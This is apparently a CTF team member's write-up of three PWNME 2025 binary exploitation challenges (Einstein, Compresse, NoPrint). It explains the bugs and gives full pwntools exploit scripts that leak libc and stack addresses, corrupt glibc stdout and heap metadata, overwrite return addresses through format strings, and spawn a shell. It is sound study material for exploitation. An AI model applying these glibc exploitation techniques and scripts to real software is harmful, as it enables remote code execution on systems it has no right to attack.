

This time, I've played with my new team [Alternative für Knights](https://ctftime.org/team/369824).
Our team was on the top 6.


# Einstein

[Attachment](/assets/PWNME2025/einstein.zip)

```c
int __cdecl handle()
{
  int offset; // [rsp+8h] [rbp-38h] BYREF
  unsigned int size; // [rsp+Ch] [rbp-34h] BYREF
  unsigned __int64 *wher; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 wat; // [rsp+18h] [rbp-28h] BYREF
  unsigned __int64 *wher2; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 wat2; // [rsp+28h] [rbp-18h] BYREF
  char *allocated; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  puts("\nHow long is your story ?");
  __isoc99_scanf("%u", &size);
  if ( size <= 0x27 )
  {
    puts("Well... It seems you don't really want to talk to me that much, cya.");
    _exit(1337);
  }
  allocated = (char *)malloc(size);
  puts("What's the distortion of time and space ?");
  __isoc99_scanf("%u", &offset);
  puts(
    "Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only"
    ", use them wisely.");
  read(0, &allocated[offset], 0x22uLL);
  puts("Everything is relative... Or is it ???");
  __isoc99_scanf("%llu %llu", &wher, &wat);
  __isoc99_scanf("%llu %llu", &wher2, &wat2);
  *wher = wat;
  *wher2 = wat2;
  return 0;
}
```

So we can arbitrary write with :

```c
  __isoc99_scanf("%llu %llu", &wher, &wat);
  __isoc99_scanf("%llu %llu", &wher2, &wat2);
  *wher = wat;
  *wher2 = wat2;
```
but since we don't know any address we couldn't do anything now.

```c
allocated = (char *)malloc(size);
```
Knowing that if `size >= 0x20000`, `malloc` will call `mmap`. The allocated chunk often has the address fixed with libc's address.

Why "often"? Some distros use other kernels with many different configs, that makes fs_base and mmap have different behavior. I see sometimes the allocated chunk and fs_base have the addresses fixed with each other but not with libc.( This is self-experience so I don't show any codes or POCs here. Believe or not is up to you).

Now we need to leak address first.

First time, I had thought that I had to overwrite stdout to leak addresses. Specially, changing first 2 bytes of stdout->_IO_write_base to `\0\0` to make `stdout->_IO_write_base` <  `stdout->_IO_write_ptr`.

With this way, we can leak libc addresses and program's name on stack:


BUT since program's name is an env variable, its address is randomize. Leaking by this way is not reliable.

So, I changed my mind. Why not changing 2 bytes of `stdout->_IO_write_ptr` to `\xff\xff`, that also makes `stdout->_IO_write_base` <  `stdout->_IO_write_ptr` and we can also leak the `environ` (that means we can know where is the stack frame of `handle` function!)


Now we have libc address and saved return address of `handle` function. Just having to write a small rop chain to get the shell.
(How luckily is that rsi=rdx=0 when the process reaches the rop chain!)

```python
#!/usr/bin/env python
from subprocess import check_output
from pwn import *
from time import sleep

context.binary = e = ELF("./einstein_patched")
libc = e.libc
gs = """
brva 0x1326 
brva 0x13A8
"""


def get_pid(name):
    return int(check_output(["pidof", "-s", name]))


def start():
    if args.LOCAL:
        p = e.process()
        if args.GDB:
            gdb.attach(p, gdbscript=gs)
            pause()
    if args.DOCKER:
        p = remote("localhost", 5000)
        sleep(2)
        if args.GDB:
            pid = get_pid("/app/run")
            gdb.attach(pid, exe=e.path,
                       gdbscript=gs+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe")
            pause()

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]), ssl=True)
    return p


_IO_CURRENTLY_PUTTING = 0x0800
_IO_IS_APPENDING = 0x1000


p = start()
p.sendlineafter(b'How long is your story ?\n', str(0x800000).encode())
offset = 0xa03790
p.sendlineafter(b"What's the distortion of time and space ?\n",
                str(offset+0x28).encode())
p.sendafter(b"Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only, use them wisely.\n", b'\xff\xff')


p.recv(0x55)
libc.address = u64(p.recv(8)) - libc.sym._IO_file_jumps
p.recv(0x40)
envp = u64(p.recv(8))
log.success(hex(libc.address))
log.success(hex(envp))

p.sendline(f"{envp-0x120} {libc.sym.execve}".encode())
p.sendline(f"{envp-0x6a8} {u64(b'/bin/sh\0')}".encode())

p.interactive()
```

Note: You will see the offset on local process and docker/remote process are different.


# Compresse

[Attachment](/assets/PWNME2025/compress.zip)

```c
char deflated_string[512]; // [rsp+90h] [rbp-420h] BYREF
char flated_string[512]; // [rsp+290h] [rbp-220h] BYREF
```
First, I saw deflated_string and flated_string are uninitialized.

```c
void __fastcall flate_string(const char *s, char *flated_string)
{
  int v2; // eax
  char v3; // [rsp+13h] [rbp-2Dh]
  int v4; // [rsp+14h] [rbp-2Ch]
  int count; // [rsp+18h] [rbp-28h]
  int to_print; // [rsp+1Ch] [rbp-24h]
  int i; // [rsp+20h] [rbp-20h]
  int j; // [rsp+24h] [rbp-1Ch]

  v4 = 0;
  count = 0;
  for ( i = 0; i < strlen(s); ++i )
  {
    if ( ((*__ctype_b_loc())[s[i]] & 0x800) != 0 )
    {
      to_print = 0;
      while ( ((*__ctype_b_loc())[s[i]] & 0x800) != 0 )
      {
        to_print = 10 * to_print + s[i] - '0';
        if ( count + to_print > 512 )
          return;
        ++i;
      }
      v3 = s[i];
      count += to_print;
      for ( j = 0; j < to_print; ++j )
      {
        v2 = v4++;
        flated_string[v2] = v3;
      }
    }
  }
  flated_string[v4] = 0;
}
```
In function `flate_string`; if `count+to_print` > 512, the fucntion returns immediately.
Take advantage of this, we can leak many addresses in `flate_string`.


Also in this function, `v4` can be 512 before it returns. This is off-by-one bug, we can change the value of `current_node` ( set null byte make it smaller, so we can control the heap metadata).


I change the size of `notes[1]` to 0x800. Free it and allocate again.

Now `notes[1]` and `unsortedbin` are duplicated. Using `notes[1]` to modify `unsortedbin`.

Current `unsortedbin` has the size of `0x03e0` ( < 0x420 ).

Realized that `sizeof(input) + sizeof(deflated_string) + sizeof(flated_string) = 0x480`, I created 2 two fake chunk 0x420 and 0x20.

The 0x420 fake chunk will be `notes[3]` when calling `new_note` again.

Reading code and debugging libc is a pain. I don't tell the details but only show what I changed:




Conditions:
```c
          if (__glibc_unlikely (bck->fd != victim)
              || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
```

+ victim[0]:
    bck = 0x420 fake chunk

    fd = main_arena+96

+ victim[1] ( also is 0x420 fake chunk ):
    
    After checking victim[0], libc will move it to smallbins[0x3e0] and change victim[1]->fd = victim[0]->fd.

    bck = victim[2]

    fd = main_arena+96

Now we see that notes[3] is on the stack:


Use `off-by-one` bug again for notes[3]. If luckily, we can chagnge the return address of edit_note:


```python
#!/usr/bin/env python
from pwn import *
from os import getuid, getcwd
from time import sleep
from subprocess import check_output

context.binary = e = ELF("compresse_patched")
libc = ELF("./libc.so.6")
gs = f"""
# brva 0x1942
# brva 0x19E6
dir {getcwd()}/glibc-2.39
brva 0x1607
b malloc.c:4084
"""


def get_pid(name):
    return int(check_output(["pidof", "-s", name]))


if getuid() == 0:
    context.terminal = ['/mnt/c/Windows/System32/cmd.exe',
                        '/c', 'start', 'wsl.exe', '-d', 'Ubuntu', '-u', 'root', 'bash', '-c']


def start():
    global p
    if args.LOCAL:
        p = e.process()

    elif args.DOCKER:
        p = remote("localhost", 1337)

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        _ssl = True
        p = remote(host_port[0], int(host_port[1]), ssl=_ssl)
    return p


def GDB():
    if args.LOCAL:
        gdb.attach(p, gdbscript=gs)
    elif args.DOCKER:
        pid = get_pid("/app/run")
        gdb.attach(pid, exe=e.path,
                   gdbscript=gs+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe")
    pause()


def flate(s):
    p.sendlineafter(b'Enter your choice: ', b'1')
    p.sendlineafter(b'Enter a string to flate: ', s)


def deflate(s):
    p.sendlineafter(b'Enter your choice: ', b'2')
    p.sendlineafter(b'Enter a string to deflate: ', s)


def new_note(s):
    p.sendlineafter(b'Enter your choice: ', b'3')
    p.sendafter(b'Enter your note: ', s)


def edit_note(s):
    p.sendlineafter(b'Enter your choice: ', b'4')
    p.sendlineafter(b'Edit your note: ', s)


def del_note():
    p.sendlineafter(b'Enter your choice: ', b'5')


def view_note():
    p.sendlineafter(b'Enter your choice: ', b'6')


def select_note(idx):
    p.sendlineafter(b'Enter your choice: ', b'7')
    p.sendlineafter(b"Enter a note to select: ", str(idx).encode())


def get_5th_byte(n):
    return (n >> (5 * 8)) & 0xFF


while True:
    p = start()
    new_note(b'A'*0x3f0+p64(0)+p64(0x451+0x20))
    new_note(b'B'*(0x3e0-0x10)+p64(0x0)+p64(0x41))
    flate(b'513a')
    p.recvuntil(b'Flated: ')
    e.address = u64(p.recv(6)+b'\0\0') - 0x21d8
    log.success(hex(e.address))

    flate(b'24a'+b'520f')
    p.recvuntil(b'a'*24)
    libc.address = u64(p.recv(6)+b'\0\0') - (libc.sym.malloc+418)

    flate(b'80a'+b'500f')
    p.recvuntil(b'a'*80)
    stack = u64(p.recv(6)+b'\0\0')

    flate(b'512a'+b'520f')
    p.recvuntil(b'a'*512)
    heap = u64(p.recv(6)+b'\0\0') - 0x16d0

    select_note(0)
    flate(b'512a')
    edit_note(b'X'*0xa0+p64(0)+p64(0x801))
    select_note(0)

    del_note()

    for i in range(8):
        flate(b'424X'+f'{8-i}x'.encode())

    flate(b'424X'+b'1\x20')

    for i in range(7):
        flate(b'416X'+f'{7-i}x'.encode())

    flate(b'416X'+b'1\x201\x04')

    log.success(hex(libc.address))
    log.success(hex(heap))
    log.success(hex(stack))

    if not ((get_5th_byte(libc.address) == 0x7f) and (get_5th_byte(stack) >= 0x7f)):
        p.close()
        continue

    new_note(b'X')

    victim = stack - 0x390
    select_note(1)
    flate(p64(0)+p64(0x41) +
          p64(heap+0x16c0)+p64(heap+0x16c0+0x10))

    deflate(p64(0)+p64(0x421)+p64(heap+0x16c0)+p64(heap+0x16c0+0x10))

    edit_note(p64(libc.sym.main_arena+96) +
              p64(victim-0x10)+p64(victim-0x10)+b'\0'*(0x3e0-0x20-8)+p64(0x3e0)+p64(0x40))

    log.success(hex(stack))
    log.success(hex(libc.address))

    new_note(b'X')
    flate(b'512a')

    GDB()

    try:
        edit_note(
            flat(
                [libc.address+0x000000000002882f,]*0x20 +
                [
                    libc.address + 0x000000000010f75b,
                    next(libc.search(b'/bin/sh')),
                    libc.address+0x0000000000110a4d, 0,
                    libc.address+0x00000000000b5da0,
                    libc.sym.execve

                ]
            )
        )

        p.sendline(b'cat flag')
    except EOFError:
        p.close()
        continue
    else:
        if b'PWNME' not in p.recvline():
            p.close()
            continue
        else:
            p.interactive()
            exit(0)
```

Note: On the remote/docker, the sizeof stdout buffer is 0x1000 so the address of notes[1] is `heap+0x16c0`. If you run on local, the address is different (my local is `heap+0xac0`)

# NoPrint

[Attachment](/assets/PWNME2025/noprint.zip)


Boring `foramt string` challenge again @@:

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


#define BUF_SIZE 0x100

void init(char *argv[], char **envp) {
  for (int i = 0; argv[i]; i++)
    argv[i] = NULL;
  for (int i = 0; envp[i]; i++)
    envp[i] = NULL;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
}

void main(int argc, char *argv[], char **envp) {
  FILE *stream;
  char *buf;

  puts("Hello from the void");

  init(argv, envp);

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);

  stream = fopen("/dev/null", "a");

  buf = malloc(BUF_SIZE);

  while (1) {
    buf[read(STDIN_FILENO, buf, BUF_SIZE) - 1] = '\0';
    fprintf(stream, buf);
  }
  exit(1);
}
```

To make myself more "interested", I wrote a hook library to reduce time bruteoforcing stack:
```c
// clang -shared -fPIC -masm=intel hook.c -fPIC -o hook.so
#include <bits/types/FILE.h>
#include <dlfcn.h>
extern int __fprintf(FILE *steam, const char *format);
extern void exit(int __status);

#undef fprintf

static int (*real_fprintf)(FILE *, const char *, ...) = (void *)0;

void __attribute__((constructor)) init() {
  if (!real_fprintf)
    real_fprintf = dlsym(RTLD_NEXT, "fprintf");
}

int __attribute__((naked)) fprintf(FILE *__restrict __stream,
                                   const char *__restrict __format) {
  asm("mov rcx, rsp\n"
      "cmp cx, 0x0108\n"
      "jne no\n"
      "mov rbx, qword ptr [rip + real_fprintf@GOTPCREL]\n"
      "jmp qword ptr [rbx]\n"
      "no:\n"
      "lea rdi, [rip+fmt]\n"
      "mov rsi, rsp\n"
      "call printf\n"
      "mov edi, 0\n"
      "call exit\n"
      "fmt:\n"
      ".asciz \"0x%lx\"");
}
```

Script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep
import threading
from concurrent.futures import ThreadPoolExecutor
import sys

context.binary = e = ELF("noprint")
libc = e.libc
gs_before = """

"""

gs = '''
b *fprintf
b *__execvpe+1426
b *__vfprintf_internal+221
'''


def start():
    if args.LOCAL:
        p = process([e.path], env={"LD_PRELOAD": "./hook.so"})
    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p


def test_stack_address(lock, found_flag, result):
    # Each thread runs this function
    while True:
        with lock:  # Prevent multiple threads from printing/setting found_flag simultaneously
            if found_flag[0]:  # If another thread found the result, exit
                return

        p = start()
        p.sendline(b'A')
        sleep(0.1)  # Small delay to allow process to respond

        if p.poll() is None:  # Process still alive, potential success
            with lock:
                if not found_flag[0]:  # Double-check no other thread succeeded
                    print("[+] Found working stack address!")
                    found_flag[0] = True
                    result[0] = p  # Store the successful process
            break

        # Check output for specific condition (e.g., ends with b'0108')
        output = p.recvline(timeout=0.5)+p.recvline(timeout=0.5)
        with lock:
            print(f"Output: {output}")
            if output.endswith(b'0108'):
                print("[+] Condition met (ends with 0108)!")
                found_flag[0] = True
                result[0] = p
                break

        p.close()


def main():
    # Shared variables for thread synchronization
    lock = threading.Lock()
    found_flag = [False]  # Mutable list to share state across threads
    result = [None]  # Store the successful process object

    # Number of threads to use (adjust based on system capability and target)
    num_threads = 10

    print(f"Starting brute-force with {num_threads} threads...")

    # Use ThreadPoolExecutor to manage threads
    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        # Launch threads
        futures = [executor.submit(test_stack_address, lock, found_flag, result)
                   for _ in range(num_threads)]

        # Wait for all threads to complete (or one to succeed)
        for future in futures:
            future.result()

    # If a working process was found, proceed with it
    if found_flag[0] and result[0]:
        p = result[0]

        if args.GDB:
            gdb.attach(p, gdbscript=gs)
            pause()
    else:
        print("[-] No working stack address found.")


if __name__ == "__main__":
    main()
```


My goal is changing the return address of `__vfprintf_internal`. We can use 12th arg with `%*c` to copy 4 byte of `__libc_start_call_main+120` address:


While checking many one-gadgets, I saw this gadget was unsat because the value of r12:


Noticing that `__vfprintf_internal` restoring r12 value on the stack, so I changed r12 value by changing this value on stack:


Payload:
```python
        p.sendline(b'%11$hn')
        pause()
        p.sendline(b'%31$ln')
        pause()
        p.sendline(b'%40c'+b'%11$hn')
        pause()
        p.sendline(b'%835455c%*12$d'+b'%31$n')
```

Run many times to hit one-gadget:


BUT, I have not run this explotation for the remote instance yet.

My teammate @Jalynk2004 has solved it with the other way ( Yes, he did get the flag ). By changing the fileno of FILE object, he could leak many addresses, `noprint` became `print` now!.

His script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("./noprint_patched")
l = ELF("./libc.so.6")
gs="""
"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE: # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p

r = start()


r.recvuntil(b'void\n')
pl = f'%{0x3e84}c%9$hn'.encode()
r.sendline(pl)

pl = f'%*9$d%112c%13$n'.encode()

r.sendline(pl)
sleep(1.5)
pl = b'%c%21$hhn'
r.sendline(pl)


pl = b'%12$p%13$p\n\n'

sleep(0.5)

r.sendline(pl)

r.recvuntil(b'0x', timeout = 10)
l.address = int(r.recv(12), 16) - 0x2a3b8
log.info(f'Libc: {hex(l.address)}')
r.recvuntil(b'0x')
stack = int(r.recv(12), 16)
log.info(f'Stack: {hex(stack)}')

rip = stack - 0x88
r1 = rip & 0xffff
r2 = (rip >> 16) & 0xffff
r3 = (rip >> 32) & 0xffff

pl = f'%{0x3c84}c%9$hn'.encode()
r.sendline(pl + b'\0\n\n')
r.clean()
r.clean()


buffer = stack - 0x58
b1 = buffer & 0xffff
b2 = (buffer >> 16) & 0xffff
b3 = (buffer >> 32) & 0xffff
log.info(f'Buffer: {hex(buffer)}')


pl = b'%3c%21$hn\0\0'

r.sendline(pl)
r.clean()

pl = f'%{(buffer + 2) & 0xffff}c%11$hn'.encode()

sleep(2)
r.sendline(pl)


pl = f'%{(rip >> 16) & 0xffffffff}c%31$n'.encode()
sleep(2)

r.sendline(pl)


pl = f'%{(buffer) & 0xffff}c%11$hn'.encode()

r.sendline(pl)


pl = f'%{rip & 0xffff}c%31$hn'.encode()
sleep(2)
r.sendline(pl)


rdi = l.address + 0x00000000000cee4d
ret = rdi + 1
system = l.sym.system
bin_sh = next(l.search(b'/bin/sh\0'))

sleep(1)
r.send(p64(rdi) + p64(bin_sh) + p64(ret) + p64(system))
#sleep(0.5)
r.sendline(b'cat fl*')

r.interactive()
```

# Epilogue

Firstly, thank many authors for creating many good challenges. First time I had seen the `Compresse` challenge, I had thought it would be a boring heap note challenge but it is actually better than that!

This time is maybe the first success of my new team. 

After many mistakes and trusting wrong people in the old team, hope this time will be brighter furture!

Cheer./.